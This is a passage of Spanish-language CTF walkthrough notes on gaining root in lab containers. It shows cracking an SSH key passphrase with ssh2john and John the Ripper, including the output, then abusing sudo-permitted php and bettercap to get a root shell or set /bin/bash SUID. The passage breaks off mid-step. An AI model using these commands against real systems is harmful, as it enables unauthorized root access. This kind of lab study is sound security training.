Paso 3:
Nos copiamos este id_rsa en nuestra máquina atacante, y con ssh2john sacamos el hash de esta clave.

ssh2john id_rsa > hash

Paso 4:
Por último con John The Ripper y el clásico rockyou crackeamos el passphrase de la clave.

john hash --wordlist=/usr/share/wordlists/rockyou.txt

Nos mostrará lo siguiente:

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
honda1           (id_rsa)           *_*  
1g 0:00:01:23 DONE (2024-05-23 15:15) 0.01197g/s 42.52p/s 42.52c/s 42.52C/s cougar..01234
Use the "--show" option 

Paso 5:
Por último le damos los permisos necesarios a id_rsa y con ssh deberíamos conectarnos como root...

chmod 600 id_rsa

Nos conectamos por ssh:

ssh -i id_rsa root@172.17.0.2
y de parafrase colocamos honda1

y listo somos root !!!

-------------------------------------------------------------------------------

14.-	/usr/bin/php

User mateo may run the following commands on 9dfea1ef62cf:
    (ALL) NOPASSWD: /usr/bin/php

Escribimos
CMD="/bin/sh"

presionamos enter y luego escribimos

sudo /usr/bin/php -r "system('$CMD');"

presionamos enter y listo somos root !!!

-------------------------------------------------------------------------------
15.-	/usr/bin/bettercap

User agua may run the following commands on 28c2e1cc6a7d:
    (root) NOPASSWD: /usr/bin/bettercap

ejecutamos bettercap
sudo /usr/bin/bettercap

! chmod +s /bin/bash

